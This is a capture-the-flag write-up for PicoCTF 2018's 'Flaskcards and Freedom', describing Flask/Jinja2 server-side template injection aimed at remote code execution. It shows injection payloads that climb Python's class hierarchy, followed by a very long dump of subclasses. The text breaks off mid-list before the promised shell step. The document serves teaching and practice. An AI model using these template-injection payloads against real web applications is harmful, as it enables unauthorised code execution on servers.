


# Flaskcards and Freedom

This is a 900-point PicoCTF 2018 problem that is the third of three in the "Flaskcards" series. In terms of points, it's tied for the most difficult problem.

### Problem Description

There seem to be a few more files stored on the flash card server but we can't login. Can you? ([link](http://2018shell.picoctf.com:52168/))

The hint explicitly informs the user that the goal of the problem is to get remote code execution on the server.

### Solution

To solve this problem, I did some research into how to exploit Server-Side Template Injection in Flask to get remote code execution. I used two techniques here:

1. Get the remote server to spawn a shell by placing a call to `open(cmd)`

2. Get a reverse shell

First of all, I'll just mention that I started with the solution to the [Flaskcards](https://github.com/Sudoite/ctf-writeups/tree/master/PicoCTF2018/web/Flaskcards) problem: I registered, entered `{{config}}` into the `Question` field for a card, then viewed the card. That demonstrated that this version of the site still has an SSTI vulnerability in that field, but there was no flag stored in the configuration file. Next, I used the approach given [here]

`{{''.__class__}}` yields `<class 'str'>`. Okay, let's go up the object tree, then back down, looking for an `open` command.

`{{''.__class__.mro()}}` yields `[<class 'str'>, <class 'object'>]`.

`{{''.__class__.mro()[1]}}` yields `<class 'object'>`.

`{{''.__class__.mro[1].__subclasses__}}`
yields `<built-in method __subclasses__ of type object at 0x7f000075c5a0>`. Nope, that's not what I want...

`{{''.__class__.mro()[1].__subclasses__()}}` yields:

```
[<class 'itertools.compress'>, <class 'formatteriterator'>, <class 'sqlalchemy.dialects.sqlite.json._FormatTypeMixin'>, <class 'zipfile._Tellable'>, <class 'itertools.islice'>, <class 'sqlalchemy.engine.base.Engine._trans_ctx'>, <class 'jinja2.runtime.BlockReference'>, <class '_frozen_importlib._installed_safely'>, <class 'operator.methodcaller'>, <class 'slice'>, <class 'traceback.TracebackException'>, <class 'dict_items'>, <class 'urllib.request.AbstractBasicAuthHandler'>, <class 'wtforms.fields.core.UnboundField'>, <class 'werkzeug.wrappers.UserAgentMixin'>, <class '_frozen_importlib._ModuleLock'>, <class 'click.parser.Option'>, <class 'itertools._tee'>, <class 'type'>, <class 'subprocess.CompletedProcess'>, <class 'contextlib._RedirectStream'>, <class 'urllib.request.AbstractDigestAuthHandler'>, <class 'werkzeug.datastructures.ContentRange'>, <class 'sqlalchemy.orm.collections._PlainColumnGetter'>, <class 'tempfile.SpooledTemporaryFile'>, <class 'types.SimpleNamespace'>, <class 'sqlalchemy.orm.base._MappedAttribute'>, <class 'traceback.FrameSummary'>, <class '_pickle.Pdata'>, <class 'jinja2.idtracking.Symbols'>, <class 'inspect.BlockFinder'>, <class 'werkzeug.local.LocalManager'>, <class 'tempfile._TemporaryFileCloser'>, <class 'managedbuffer'>, <class 'dict'>, <class 'logging.Formatter'>, <class 'sqlalchemy.dialects.sqlite.base._DateTimeMixin'>, <class 'email.header.Header'>, <class 'werkzeug.wrappers.ETagRequestMixin'>, <class 'set'>, <class '_frozen_importlib._ImportLockContext'>, <class 'sqlalchemy.orm.scoping.scoped_session'>, <class 'flask_sqlalchemy._SessionSignalEvents'>, <class 'inspect.Signature'>, <class 'posix.ScandirIterator'>, <class 'decimal.SignalDictMixin'>, <class 'json.decoder.JSONDecoder'>, <class 'apscheduler.triggers.base.BaseTrigger'>, <class 'selectors.BaseSelector'>, <class 'concurrent.futures.process._WorkItem'>, <class 'flask.sessions.SessionInterface'>, <class 'jinja2.lexer.TokenStream'>, <class 'importlib.abc.Loader'>, <class 'click.formatting.HelpFormatter'>, <class '_json.Encoder'>, <class 'code'>, <class 'os._DummyDirEntry'>, <class 'collections.abc.Callable'>, <class 'flask.ctx._AppCtxGlobals'>, <class 'pkg_resources.IMetadataProvider'>, <class 'werkzeug.wrappers.CommonResponseDescriptorsMixin'>, <class 'threading.Thread'>, <class 'pkg_resources.extern.packaging.requirements.Requirement'>, <class 'sqlalchemy.log.InstanceLogger'>, <class 'itsdangerous.Signer'>, <class 'wtforms.utils.UnsetValue'>, <class 'jinja2.runtime.TemplateReference'>, <class 'threading.Barrier'>, <class 'sqlalchemy.orm.strategies.LoadLazyAttribute'>, <class '_sitebuiltins._Helper'>, <class 'warnings.WarningMessage'>, <class 'datetime.timedelta'>, <class 'frame'>, <class 'jinja2.environment.TemplateStream'>, <class 'sqlalchemy.event.base._JoinedDispatcher'>, <class 'werkzeug.datastructures.ImmutableHeadersMixin'>, <class 'email.header._ValueFormatter'>, <class 'uuid.UUID'>, <class 'pkg_resources._vendor.pyparsing._Constants'>, <class 'plistlib._PlistParser'>, <class 'werkzeug.wrappers.StreamOnlyMixin'>, <class 'BaseException'>, <class 'wtforms.fields.core.Label'>, <class '_frozen_importlib.BuiltinImporter'>, <class 'sqlalchemy.util.langhelpers.memoized_property'>, <class 'flask.cli.DispatchingApp'>, <class 'sqlalchemy.orm.deprecated_interfaces.MapperExtension'>, <class 'sqlalchemy.orm.instrumentation._SerializeManager'>, <class 'numbers.Number'>, <class 'zipfile.ZipFile'>, <class 'weakcallableproxy'>, <class 'jinja2.environment.TemplateModule'>, <class 'jinja2.utils.LRUCache'>, <class 'jinja2.lexer.Failure'>, <class 'flask.json.tag.TaggedJSONSerializer'>, <class 'flask.helpers.locked_cached_property'>, <class 'zipfile.LZMADecompressor'>, <class 'ipaddress._BaseV6'>, <class 'sqlalchemy.event.base.Events'>, <class 'jinja2.utils.MissingType'>, <class 'pkg_resources.NullProvider'>, <class 'mappingproxy'>, <class 'werkzeug.wsgi._RangeWrapper'>, <class 'click.core.BaseCommand'>, <class 'werkzeug.wsgi.ProxyMiddleware'>, <class 'itertools._tee_dataobject'>, <class 'sqlalchemy.engine.interfaces.Connectable'>, <class 'pprint.PrettyPrinter'>, <class 'sqlalchemy.sql.util.ColumnAdapter._IncludeExcludeMapping'>, <class 'cell'>, <class 'zlib.Compress'>, <class 'werkzeug.local.Local'>, <class 'jinja2.compiler.MacroRef'>, <class 'flask_login.mixins.AnonymousUserMixin'>, <class 'collections.abc.Iterable'>, <class 'jinja2.parser.Parser'>, <class 'pkg_resources._vendor.pyparsing.ParserElement'>, <class 'jinja2.ext.Extension'>, <class 'werkzeug.datastructures.Headers'>, <class 'sqlalchemy.orm.path_registry.PathRegistry'>, <class 'itertools.combinations_with_replacement'>, <class 'ssl.SSLObject'>, <class 'string.Template'>, <class 'weakref'>, <class 'werkzeug.datastructures.UpdateDictMixin'>, <class 'sqlite3Node'>, <class 'itsdangerous._CompactJSON'>, <class 'sqlalchemy.ext.baked.Result'>, <class 'longrange_iterator'>, <class '_hashlib.HASH'>, <class 'wrapper_descriptor'>, <class 'weakref.finalize._Info'>, <class 'types.DynamicClassAttribute'>, <class 'wtforms.validators.Email'>, <class 'wtforms.widgets.core.TableWidget'>, <class 'sre_parse.SubPattern'>, <class 'werkzeug.wrappers.AcceptMixin'>, <class 'sqlalchemy.orm.util.AliasedClass'>, <class 'decimal.ContextManager'>, <class 'concurrent.futures.process._CallItem'>, <class '_frozen_importlib_external.FileFinder'>, <class 'flask_sqlalchemy._SQLAlchemyState'>, <class 'werkzeug.utils.HTMLBuilder'>, <class 'werkzeug.routing.MapAdapter'>, <class 'pkg_resources.extern.packaging.version._BaseVersion'>, <class '_ctypes._CData'>, <class 'CArgObject'>, <class 'email.parser.Parser'>, <class 'blinker._saferef.BoundMethodWeakref'>, <class 'sqlalchemy.ext.declarative.clsregistry._GetColumns'>, <class '_frozen_importlib_external.PathFinder'>, <class 'sqlalchemy.util.langhelpers.PluginLoader'>, <class 'werkzeug.routing.Map'>, <class 'sqlalchemy.orm.evaluator.EvaluatorCompiler'>, <class 'hmac.HMAC'>, <class 'sqlalchemy.cresultproxy.BaseRowProxy'>, <class 'pkg_resources._vendor.six._LazyDescr'>, <class 'sqlalchemy.util.queue.Queue'>, <class 'wtforms.i18n.DefaultTranslations'>, <class 'str'>, <class 'wtforms.validators.HostnameValidation'>, <class 'pkg_resources._vendor.pyparsing._ParseResultsWithOffset'>, <class 'sqlalchemy.engine.result.ResultProxy'>, <class 'sqlalchemy.orm.persistence.BulkUD'>, <class 'flask_sqlalchemy.Pagination'>, <class 'email.parser.BytesParser'>, <class 'jinja2.lexer.TokenStreamIterator'>, <class 'itertools.groupby'>, <class 'dict_values'>, <class 'zip'>, <class 'instancemethod'>, <class 'uwsgi.SymbolsZipImporter'>, <class 'werkzeug.routing.BaseConverter'>, <class 'collections.abc.AsyncIterable'>, <class 'sqlalchemy.orm.deprecated_interfaces.AttributeExtension'>, <class 'jinja2.loaders.BaseLoader'>, <class 'wtforms.validators.AnyOf'>, <class 'pkg_resources._vendor.six._SixMetaPathImporter'>, <class 'wtforms.meta.DefaultMeta'>, <class 'stderrprinter'>, <class '_json.Scanner'>, <class 'sqlalchemy.util._collections.ImmutableContainer'>, <class 'sqlalchemy.event.base._Dispatch'>, <class 'jinja2.environment.Environment'>, <class 'sqlalchemy.ext.declarative.api.ConcreteBase'>, <class 'str_iterator'>, <class 'concurrent.futures.process._ResultItem'>, <class 'sqlalchemy.event.attr._empty_collection'>, <class 'pkg_resources.WorkingSet'>, <class '_io.IncrementalNewlineDecoder'>, <class 'uwsgi.SymbolsImporter'>, <class 'werkzeug.routing.RuleFactory'>, <class 'multiprocessing.connection.SocketListener'>, <class 'threading._RLock'>, <class 'sqlalchemy.sql.selectable.HasCTE'>, <class 'sqlalchemy.engine.interfaces.Dialect'>, <class 'sqlalchemy.orm.collections.CollectionAdapter'>, <class 'sqlalchemy.ext.declarative.api.DeferredReflection'>, <class 'werkzeug.datastructures._omd_bucket'>, <class 'ctypes.LibraryLoader'>, <class 'pyexpat.xmlparser'>, <class 'plistlib.Data'>, <class 'urllib.request.BaseHandler'>, <class 'concurrent.futures.thread._WorkItem'>, <class 'sqlalchemy.util.langhelpers.group_expirable_memoized_property'>, <class 're.Scanner'>, <class 'subprocess.Popen'>, <class 'logging.LogRecord'>, <class 'pkg_resources._vendor.pyparsing.OnlyOnce'>, <class 'logging.Manager'>, <class 'wtforms.validators.NumberRange'>, <class 'sqlalchemy.engine.interfaces.ExecutionContext'>, <class 'traceback'>, <class 'itertools.permutations'>, <class 'sqlalchemy.sql.sqltypes.Concatenable'>, <class 'werkzeug._internal._Missing'>, <class 'werkzeug.formparser.MultiPartParser'>, <class 'flask_bootstrap.Bootstrap'>, <class 'collections.abc.Sized'>, <class 'callable_iterator'>, <class 'apscheduler.util._Undefined'>, <class 'sqlite3.Cache'>, <class 'sqlalchemy.orm.deprecated_interfaces.SessionExtension'>, <class 'multiprocessing.context.BaseContext'>, <class 'datetime.date'>, <class 'weakproxy'>, <class 'sqlalchemy.log.echo_property'>, <class '_ctypes.CField'>, <class 'sqlalchemy.event.registry._EventKey'>, <class 'sqlalchemy.orm.relationships._ColInAnnotations'>, <class 'urllib.request.HTTPPasswordMgr'>, <class 'range_iterator'>, <class 'flask_bootstrap.WebCDN'>, <class 'click.utils.KeepOpenFile'>, <class 'bytes'>, <class 'sqlalchemy.orm.dynamic.AppenderMixin'>, <class 'sqlalchemy.sql.schema._SchemaTranslateMap'>, <class 'sqlalchemy.sql.naming.ConventionDict'>, <class 'Struct'>, <class 'posix.DirEntry'>, <class 'dict_keys'>, <class 'werkzeug.routing.RuleTemplate'>, <class 'apscheduler.job.Job'>, <class '__future__._Feature'>, <class 'werkzeug.wrappers.BaseRequest'>, <class 'click.parser.OptionParser'>, <class 'sqlalchemy.orm.unitofwork.IterateMappersMixin'>, <class 'wtforms.validators.UUID'>, <class 'array.array'>, <class 'jinja2.runtime.Undefined'>, <class 'pkg_resources.extern.packaging._structures.NegativeInfinity'>, <class 'concurrent.futures._base.Executor'>, <class 'werkzeug.wrappers.CommonRequestDescriptorsMixin'>, <class 'logging.PercentStyle'>, <class '_bz2.BZ2Decompressor'>, <class '_thread._local'>, <class 'wtforms.validators.Length'>, <class 'classmethod'>, <class 'int'>, <class 'bytearray_iterator'>, <class 'configparser.Interpolation'>, <class 'tarfile._Stream'>, <class 'importlib.abc.Finder'>, <class 'sqlalchemy.orm.dynamic.CollectionHistory'>, <class 'markupsafe._MarkupEscapeHelper'>, <class 'flask_sqlalchemy.model.NameMetaMixin'>, <class 'range'>, <class 'werkzeug._internal._DictAccessorProperty'>, <class 'sqlalchemy.DecimalResultProcessor'>, <class 'sqlalchemy.orm.unitofwork.PostSortRec'>, <class 'member_descriptor'>, <class 'bytes_iterator'>, <class 'operator.itemgetter'>, <class 'pickle._Unpickler'>, <class 'json.encoder.JSONEncoder'>, <class '_bz2.BZ2Compressor'>, <class 'visitor.Visitor'>, <class 'apscheduler.jobstores.base.BaseJobStore'>, <class 'werkzeug.datastructures.ImmutableDictMixin'>, <class '_pickle.PicklerMemoProxy'>, <class '_ast.AST'>, <class 'flask.cli.ScriptInfo'>, <class 'decimal.Context'>, <class 'functools._lru_cache_wrapper'>, <class 'sqlite3.Cursor'>, <class 'wtforms.validators.IPAddress'>, <class 'urllib.request.URLopener'>, <class 'logging.LoggerAdapter'>, <class 'flask.ctx.RequestContext'>, <class 'wtforms.validators.NoneOf'>, <class 'pkg_resources.Environment'>, <class 'iterator'>, <class 'pprint._safe_key'>, <class 'moduledef'>, <class 'ipaddress._IPv6Constants'>, <class 'sqlalchemy.util.langhelpers.symbol'>, <class 'zipfile.LZMACompressor'>, <class 'unicodedata.UCD'>, <class 'werkzeug.datastructures.ImmutableListMixin'>, <class 'sqlalchemy.orm.interfaces.LoaderStrategy'>, <class 'sqlalchemy.util.langhelpers.MemoizedSlots'>, <class 'sqlalchemy.orm.query.QueryContext'>, <class 'select.poll'>, <class '_pickle.Unpickler'>, <class 'sqlalchemy.engine.result.ResultMetaData'>, <class '_weakrefset._IterationGuard'>, <class 'pkg_resources.extern.packaging.markers.Marker'>, <class '_thread.lock'>, <class 'tarfile._FileInFile'>, <class 'sqlalchemy.log.Identified'>, <class 'werkzeug.datastructures.FileStorage'>, <class 'urllib.parse._NetlocResultMixinBase'>, <class 'wtforms.widgets.core.TextArea'>, <class 'decimal.Decimal'>, <class 'apscheduler.events.SchedulerEvent'>, <class '_frozen_importlib._DummyModuleLock'>, <class 'sqlalchemy.util.langhelpers.hybridproperty'>, <class 'itertools.cycle'>, <class 'sqlalchemy.orm.attributes.AttributeImpl'>, <class 'jinja2.visitor.NodeVisitor'>, <class 'logging.Filterer'>, <class '_multiprocessing.SemLock'>, <class 'warnings.catch_warnings'>, <class 'urllib.request.OpenerDirector'>, <class 'jinja2.bccache.BytecodeCache'>, <class 'multiprocessing.connection.ConnectionWrapper'>, <class 'sqlalchemy.util.langhelpers.safe_reraise'>, <class 'sqlalchemy.orm.strategies.SubqueryLoader._SubqCollections'>, <class 'wtforms.fields.core.Field'>, <class 'sqlalchemy.pool.base._ConnectionFairy'>, <class 'itertools.combinations'>, <class 'zlib.Decompress'>, <class '_collections._deque_reverse_iterator'>, <class 'super'>, <class 'map'>, <class 'threading.Event'>, <class '_thread._localdummy'>, <class 'blinker.base.Signal'>, <class 'ctypes.CDLL'>, <class 'sqlalchemy.orm.events._InstrumentationEventsHold'>, <class 'multiprocessing.reduction._C'>, <class 'jinja2.utils.Cycler'>, <class 'tempfile.TemporaryDirectory'>, <class '_ssl._SSLSocket'>, <class 'PyCapsule'>, <class '_frozen_importlib_external._NamespaceLoader'>, <class 'dominate.dom1core.dom1core'>, <class 'sqlalchemy.orm.identity.IdentityMap'>, <class 'wtforms.widgets.core.Select'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class 'flask_wtf.csrf.CSRFProtect'>, <class 'werkzeug.wsgi.DispatcherMiddleware'>, <class 'sqlalchemy.cprocessors.UnicodeResultProcessor'>, <class 'collections.deque'>, <class 'tarfile.TarIter'>, <class 'email._policybase._PolicyBase'>, <class 'dict_keyiterator'>, <class 'jinja2.runtime.Context'>, <class 'enumerate'>, <class 'multiprocessing.util.Finalize'>, <class '_frozen_importlib.FrozenImporter'>, <class 'sqlalchemy.sql.compiler.Compiled'>, <class 'multiprocessing.process.BaseProcess'>, <class 'classmethod_descriptor'>, <class 'uwsgi._Input'>, <class 'queue.Queue'>, <class 'sqlalchemy.pool.dbapi_proxy._DBProxy'>, <class 'sre_parse.Pattern'>, <class 'sqlalchemy.exc.DontWrapMixin'>, <class 'jinja2.ext._CommentFinder'>, <class 'complex'>, <class 'ast.NodeVisitor'>, <class 'codecs.Codec'>, <class 'sqlalchemy.orm.dependency.DependencyProcessor'>, <class 'functools.partialmethod'>, <class 'inspect.Parameter'>, <class 'apscheduler.executors.base.BaseExecutor'>, <class 'pkg_resources.extern.VendorImporter'>, <class 'pkg_resources._vendor.six._SixMetaPathImporter'>, <class 'itertools.zip_longest'>, <class 'method_descriptor'>, <class 'pkg_resources.extern.packaging.specifiers.BaseSpecifier'>, <class 'contextlib.ContextDecorator'>, <class 'sqlalchemy.sql.compiler.IdentifierPreparer'>, <class 'tokenize.Untokenizer'>, <class 'reprlib.Repr'>, <class 'copy._EmptyClass'>, <class 'ipaddress._BaseV4'>, <class 'itertools.accumulate'>, <class 'logging.BufferingFormatter'>, <class 'sqlalchemy.event.base.dispatcher'>, <class 'sqlalchemy.engine.base.Transaction'>, <class 'urllib.request.Request'>, <class 'flask_sqlalchemy.model.BindMetaMixin'>, <class 'wtforms.form.BaseForm'>, <class 'difflib.HtmlDiff'>, <class 'sqlalchemy.util._collections.Properties'>, <class 'set_iterator'>, <class 'itertools.dropwhile'>, <class 'tempfile._RandomNameSequence'>, <class 'werkzeug.wsgi.FileWrapper'>, <class 'pkg_resources._vendor.six._LazyDescr'>, <class 'logging.PlaceHolder'>, <class 'sqlalchemy.sql.visitors.Visitable'>, <class 'concurrent.futures._base.Future'>, <class 'NotImplementedType'>, <class 'dict_itemiterator'>, <class 'jinja2.debug.TracebackFrameProxy'>, <class '_frozen_importlib._ManageReload'>, <class 'ipaddress._IPv4Constants'>, <class 'sqlalchemy.engine.strategies.EngineStrategy'>, <class '_weakrefset.WeakSet'>, <class 'inspect._void'>, <class 'blinker._utilities.lazy_property'>, <class 'sqlalchemy.ext.declarative.clsregistry._class_resolver'>, <class 'sqlalchemy.orm.strategy_options.loader_option'>, <class 'werkzeug.wrappers.WWWAuthenticateMixin'>, <class 'tempfile._TemporaryFileWrapper'>, <class 'difflib.SequenceMatcher'>, <class 'sqlalchemy.orm.query.Query'>, <class 'multiprocessing.util.ForkAwareThreadLock'>, <class 'builtin_function_or_method'>, <class 'pkgutil.ImpImporter'>, <class 'sqlalchemy.sql.base.Generative'>, <class 'werkzeug.urls.Href'>, <class 'calendar._localized_month'>, <class 'urllib.parse._ResultMixinBytes'>, <class 'wtforms.validators.DataRequired'>, <class 'flask.json.tag.JSONTag'>, <class '_sre.SRE_Pattern'>, <class 'calendar.different_locale'>, <class 'sqlalchemy.sql.base.SchemaEventTarget'>, <class '_random.Random'>, <class 'click._compat._AtomicFile'>, <class 'itertools.takewhile'>, <class 'click.types.ParamType'>, <class 'click.core.Parameter'>, <class 'sqlalchemy.util.langhelpers.dependencies'>, <class 'email.feedparser.BufferedSubFile'>, <class 'sqlalchemy.ext.declarative.base._MapperConfig'>, <class 'collections.abc.Container'>, <class 'sqlalchemy.orm.query._QueryEntity'>, <class 'list_iterator'>, <class 'select.epoll'>, <class 'werkzeug.wrappers.ResponseStreamMixin'>, <class 'plistlib._BinaryPlistWriter'>, <class '_sitebuiltins.Quitter'>, <class 'sqlalchemy.pool.base._ConnectionRecord'>, <class 'jinja2.nodes.EvalContext'>, <class 'tarfile._StreamProxy'>, <class 'click.parser.Argument'>, <class '_ssl.MemoryBIO'>, <class 'fieldnameiterator'>, <class 'sqlalchemy.interfaces.ConnectionProxy'>, <class 'apscheduler.schedulers.base.BaseScheduler'>, <class 'sqlalchemy.orm.session._SessionClassMethods'>, <class 'email.charset.Charset'>, <class 'pkg_resources._SetuptoolsVersionMixin'>, <class 'concurrent.futures.process._ExceptionWithTraceback'>, <class 'flask_sqlalchemy._QueryProperty'>, <class 'werkzeug.formparser.FormDataParser'>, <class 'flask.helpers._PackageBoundObject'>, <class 'sqlalchemy.orm.collections._SerializableAttrGetter'>, <class 'zipimport.zipimporter'>, <class 'itertools.filterfalse'>, <class 'method-wrapper'>, <class 'sqlalchemy.ext.declarative.clsregistry._ModNS'>, <class 'sqlalchemy.orm.strategies.LoadDeferredColumns'>, <class 'sqlalchemy.util._collections.UniqueAppender'>, <class 'wtforms.utils.WebobInputWrapper'>, <class '_frozen_importlib_external._NamespacePath'>, <class 'wtforms.validators.EqualTo'>, <class 'pkg_resources.extern.packaging.markers.Node'>, <class '_io._IOBase'>, <class 'string.Formatter'>, <class 'werkzeug.wrappers.ResponseStream'>, <class 'sqlalchemy.util.langhelpers.dependencies._importlater'>, <class 'plistlib._BinaryPlistParser'>, <class 'jinja2.runtime.LoopContextIterator'>, <class 'sqlalchemy.ext.baked.Bakery'>, <class 'dis.Bytecode'>, <class 'sqlalchemy.sql.sqltypes.Indexable'>, <class 'flask.ctx.AppContext'>, <class 'tarfile._LowLevelFile'>, <class 'functools.partial'>, <class 'operator.attrgetter'>, <class 'reversed'>, <class 'itertools._grouper'>, <class 'jinja2.runtime.Macro'>, <class 'flask.wrappers.JSONMixin'>, <class 'flask_sqlalchemy._EngineConnector'>, <class 'sqlalchemy.orm.unitofwork.UOWTransaction'>, <class 'plistlib._DumbXMLWriter'>, <class 'sqlalchemy.engine.reflection.Inspector'>, <class 'email.message.Message'>, <class 'sre_parse.Tokenizer'>, <class 'sqlalchemy.util.langhelpers.portable_instancemethod'>, <class 'wtforms.validators.Optional'>, <class 'datetime.tzinfo'>, <class 'tuple'>, <class '_frozen_importlib_external.FileLoader'>, <class 'sqlalchemy.sql.schema.ColumnCollectionMixin'>, <class '_sre.SRE_Match'>, <class 'frozenset'>, <class 'flask_sqlalchemy.SQLAlchemy'>, <class 'app.config.Config'>, <class 'sqlalchemy.util.langhelpers.hybridmethod'>, <class 'inspect.BoundArguments'>, <class 'mimetypes.MimeTypes'>, <class 'abc.ABC'>, <class 'jinja2.compiler.Frame'>, <class 'itertools.starmap'>, <class 'wtforms.widgets.core.ListWidget'>, <class 'http.client.HTTPConnection'>, <class '_thread.RLock'>, <class 'bytearray'>, <class 'sqlalchemy.util._collections.WeakSequence'>, <class 'werkzeug.wrappers.AuthorizationMixin'>, <class 'urllib.request.ftpwrapper'>, <class 'flask_sqlalchemy._EngineDebuggingSignalEvents'>, <class 'contextlib.suppress'>, <class '_io._BytesIOBuffer'>, <class 'pickle._Unframer'>, <class 'zipfile.ZipInfo'>, <class 'itertools.count'>, <class 'pkg_resources.EntryPoint'>, <class 'sqlalchemy.sql.type_api.Emulated'>, <class 'blinker._utilities.symbol'>, <class 'sqlalchemy.sql.compiler.TypeCompiler'>, <class 'staticmethod'>, <class 'multiprocessing.connection._ConnectionBase'>, <class 'sqlalchemy.orm.collections._SerializableColumnGetter'>, <class 'jinja2.environment.TemplateExpression'>, <class '_ctypes.DictRemover'>, <class 'datetime.time'>, <class 'werkzeug.datastructures.ViewItems'>, <class 'tuple_iterator'>, <class 'sqlalchemy.orm.attributes.Event'>, <class 'wtforms.widgets.core.Input'>, <class 'odict_iterator'>, <class 'sqlalchemy.orm.relationships.JoinCondition'>, <class 'jinja2.environment.Template'>, <class 'sqlalchemy.ext.declarative.clsregistry._MultipleClassMarker'>, <class 'wtforms.validators.Regexp'>, <class 'sqlalchemy.sql.visitors.ClauseVisitor'>, <class '_pickle.Pickler'>, <class '_ctypes.CThunkObject'>, <class 'wtforms.widgets.core.Option'>, <class 'sqlalchemy.util._collections.IdentitySet'>, <class 'sqlalchemy.interfaces.PoolListener'>, <class 'pkg_resources.extern.packaging._structures.Infinity'>, <class 'tarfile.TarInfo'>, <class 'sqlalchemy.ext.declarative.clsregistry._ModuleMarker'>, <class 'weakref.finalize'>, <class 'urllib.parse._ResultMixinStr'>, <class 'NoneType'>, <class '_sre.SRE_Scanner'>, <class 'sqlalchemy.sql.operators.custom_op'>, <class 'sqlalchemy.ext.baked.BakedQuery'>, <class 'sqlalchemy.sql.sqltypes._LookupExpressionAdapter'>, <class 'itsdangerous.SigningAlgorithm'>, <class '_lzma.LZMACompressor'>, <class 'os._wrap_close'>, <class 'multiprocessing.connection.Listener'>, <class 'flask_bootstrap.ConditionalCDN'>, <class 'werkzeug.wsgi.ClosingIterator'>, <class 'types._GeneratorWrapper'>, <class 'sqlite3.Connection'>, <class 'contextlib.closing'>, <class 'memoryview'>, <class 'flask_wtf.recaptcha.widgets.RecaptchaWidget'>, <class 'pkg_resources.Distribution'>, <class 'dominate.dom_tag.dom_tag'>, <class 'wtforms.fields.core.Flags'>, <class 'click.parser.ParsingState'>, <class 'sqlalchemy.sql.operators.Operators'>, <class 'pkg_resources._vendor.pyparsing._NullToken'>, <class 'wtforms.validators.InputRequired'>, <class 'sqlalchemy.orm.state.PendingCollection'>, <class 'pkgutil.ImpLoader'>, <class 'list'>, <class 'sqlalchemy.engine.interfaces.CreateEnginePlugin'>, <class 'wtforms.csrf.core.CSRF'>, <class '_sitebuiltins._Printer'>, <class 'collections._Link'>, <class 'pkg_resources.ResourceManager'>, <class 'generator'>, <class 'uwsgi.ZipImporter'>, <class 'ipaddress._IPAddressBase'>, <class 'itertools.repeat'>, <class '_collections._deque_iterator'>, <class 'sqlalchemy.sql.base.Immutable'>, <class 'dict_valueiterator'>, <class 'sqlalchemy.orm.loading.PostLoad'>, <class 'zipfile._SharedFile'>, <class 'sqlalchemy.orm.interfaces.MapperOption'>, <class 'sqlalchemy.orm.collections.collection'>, <class 'sqlalchemy.sql.util._repr_base'>, <class 'list_reverseiterator'>, <class 'sqlite3.Row'>, <class 'werkzeug.datastructures.Range'>, <class 'concurrent.futures._base._Waiter'>, <class 'threading.Semaphore'>, <class 'itsdangerous.URLSafeSerializerMixin'>, <class 'sqlalchemy.sql.type_api.NativeForEmulated'>, <class 'contextlib.ExitStack'>, <class '_ssl._SSLContext'>, <class 'wtforms.i18n.DummyTranslations'>, <class 'flask_login.mixins.UserMixin'>, <class '_frozen_importlib._ModuleLockManager'>, <class 'sqlalchemy.orm.state.AttributeState'>, <class '_lzma.LZMADecompressor'>, <class 'filter'>, <class 'codecs.StreamReaderWriter'>, <class 'sqlalchemy.sql.selectable.HasPrefixes'>, <class 'codecs.IncrementalDecoder'>, <class 'flask.config.ConfigAttribute'>, <class 'zipfile._ZipDecrypter'>, <class 'werkzeug.local.LocalStack'>, <class 'jinja2.debug.ProcessedTraceback'>, <class 'concurrent.futures._base._AcquireFutures'>, <class 'ellipsis'>, <class 'EncodingMap'>, <class 'module'>, <class 'sqlalchemy.pool.base._ConnDialect'>, <class 'coroutine'>, <class 'flask_login.login_manager.LoginManager'>, <class 'property'>, <class 'sqlite3.Statement'>, <class 'email._parseaddr.AddrlistClass'>, <class 'codecs.StreamRecoder'>, <class 'werkzeug.local.LocalProxy'>, <class 'sqlalchemy.sql.schema._NotAColumnExpr'>, <class 'pickle._Pickler'>, <class 'werkzeug.wrappers.ETagResponseMixin'>, <class 'sqlalchemy.sql.functions._FunctionGenerator'>, <enum 'Enum'>, <class '_frozen_importlib_external._LoaderBasics'>, <class 'jinja2.lexer.Lexer'>, <class 'click._compat._FixupStream'>, <class 'flask_bootstrap.StaticCDN'>, <class 'jinja2.utils.Namespace'>, <class 'getset_descriptor'>, <class 'jinja2.bccache.Bucket'>, <class 'click.core.Context'>, <class 'sqlalchemy.util._collections.ScopedRegistry'>, <class 'jinja2.runtime.LoopContextBase'>, <class 'threading.Condition'>, <class 'coroutine_wrapper'>, <class 'tarfile.TarFile'>, <class 'itsdangerous.Serializer'>, <class 